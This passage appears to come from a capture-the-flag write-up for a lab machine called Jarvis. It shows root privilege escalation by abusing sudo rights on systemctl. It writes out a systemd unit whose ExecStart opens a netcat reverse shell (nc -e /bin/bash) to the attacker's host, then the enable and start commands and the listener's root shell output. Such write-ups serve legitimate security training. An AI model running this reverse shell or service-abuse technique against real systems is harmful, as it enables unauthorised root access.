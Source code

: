 Because we can run `systemctl` as root, we can register new services that get executed as whatever user we want. Getting root access is simple since all we need to do is register a new service that's spawn another reverse shell. I'll just create `/dev/shm/pwn.service`:

```
[Unit]
Description=Pwn service

[Service]
ExecStart=/bin/nc -e /bin/bash 10.10.14.5 7777

[Install]
WantedBy=multi-user.target
```

Then register the new service and start it:

```
pepper@jarvis:/dev/shm$ systemctl enable /dev/shm/pwn.service
Created symlink /etc/systemd/system/multi-user.target.wants/pwn.service -> /dev/shm/pwn.service.
Created symlink /etc/systemd/system/pwn.service -> /dev/shm/pwn.service.
pepper@jarvis:/dev/shm$ systemctl start pwn
```

We then get a reverse shell as root:

```
# nc -lvnp 7777
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:48144.
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
d41d8cd...
```